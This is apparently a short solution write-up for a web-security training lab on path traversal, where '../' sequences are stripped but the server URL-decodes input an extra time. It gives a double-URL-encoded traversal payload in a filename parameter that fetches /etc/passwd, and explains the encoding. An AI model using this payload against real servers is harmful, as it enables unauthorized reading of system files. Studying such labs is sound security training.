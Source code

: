# Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

Intercept a GET request for one of the product images. Change `filename=<image-id>` to `filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd`.

This uses double url-encoding of a typical traversal sequence: `../../../` -> `%2e%2e%2f%2e%2e%2f%2e%2e%2f` -> `%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66`

Check the response to see that the file is returned.